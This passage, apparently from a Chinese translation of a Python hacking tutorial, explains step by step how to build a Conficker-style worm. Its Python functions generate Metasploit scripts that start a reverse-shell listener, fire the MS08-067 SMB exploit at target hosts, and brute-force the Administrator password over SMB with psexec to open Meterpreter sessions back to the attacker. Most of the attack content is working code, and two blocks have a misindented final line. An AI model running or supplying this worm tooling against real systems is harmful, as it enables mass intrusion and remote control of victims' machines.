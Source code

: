 当 Meterpreter 反向连接到攻击者主机，并控制主机的 Metasploit 的模块叫做`multi/handler`。为了在我们的主机上设置`multi/handler`的监听器，我们首先要写下指令到 Metasploit 的资源配置文件中。注意，我们如何设置一个有效的 TCP 反弹连接的攻击荷载并标明我们本地主机将要接受连接的地址和端口号。此外，我们将设置一个全局配置`DisablePayloadHandler`来标识以后我们所有的主机都不必设置监听器，因为我们已经正在监听了。

```
def setupHandler(configFile, lhost, lport):
    configFile.write('use exploit/multi/handler\n')
    configFile.write('set PAYLOAD windows/meterpreter/reverse_tcp\n')
    configFile.write('set LPORT ' + str(lport) + '\n')
    configFile.write('set LHOST ' + lhost + '\n')
    configFile.write('exploit -j -z\n')
configFile.write('setg DisablePayloadHandler 1\n') 
```

最后，脚本已经准备好了攻击目标主机。这个函数将接收一个 Metasploit 配置文件，一个目标主机，一个本地地址和端口作为输入进行渗透测试。这个函数写入特定的 exploit 到配置文件中。它首先选择特殊的`exploit---ms08-067_netapi`，曾经被 Conficker 蠕虫利用的 exploit 攻击目标。此外，它还要选择 Meterpreter 攻击荷载需要的本地地址和本地端口。最后，它发送一个指令开始攻击目标主机，在后台执行工作(`-j`)，但并不马上打开交互(`-z`)，该脚本需要一些特定的选项，因为它将攻击多个主机，无法与所以的主机进行交互。

```
def confickerExploit(configFile, tgtHost, lhost, lport):
    configFile.write('use exploit/windows/smb/ms08_067_netapi\n')
    configFile.write('set RHOST ' + str(tgtHost) + '\n')
    configFile.write('set PAYLOAD windows/meterpreter/reverse_tcp\n')
    configFile.write('set LPORT ' + str(lport) + '\n')
    configFile.write('set LHOST ' + lhost + '\n')
configFile.write('exploit -j -z\n') 
```

## 远程执行暴力破解

当攻击者成功的启动`ms08-067_netapi`的 exploit 攻击全世界的受害者的时候，管理员安装最新的安全补丁能轻松的组织攻击。因此，脚本将使用 Conficker 蠕虫使用的第二个攻击向量。它将通过用户名和密码的组合暴力破解 SMB 服务获得对主机的远程远程执行程序的权限。

函数 smbBrute 接受 Metasploit 配置文件，目标主机，一系列密码的文件，本地地址和本地端口作为输入，然后进行监听。它设置用户名为默认的 Windows 管理员 administrator 然后打开密码文件。对于文件的每一个密码，函数将建立一个 Metasploit 资源配置文件为了使用远程执行程序的 exploit。如果一个用户名和密码组合成功了，exploit 将会启动 Meterpreter 攻击荷载反向连接到本地的地址和端口。

```
def smbBrute(configFile, tgtHost, passwdFile, lhost, lport):
    username = 'Administrator'
    pF = open(passwdFile, 'r')
    for password in pF.readlines():
        password = password.strip('\n').strip('\r')
        configFile.write('use exploit/windows/smb/psexec\n')
        configFile.write('set SMBUser ' + str(username) + '\n')
        configFile.write('set SMBPass ' + str(password) + '\n')
        configFile.write('set RHOST ' + str(tgtHost) + '\n')
        configFile.write('set PAYLOAD windows/meterpreter/reverse_tcp\n')
        configFile.write('set LPORT ' + str(lport) + '\n')
        configFile.write('set LHOST ' + lhost + '\n')
        configFile.write('exploit -j -z\n') 
```

## 将所有的放在一起建立我们自己的 Conficker 蠕虫
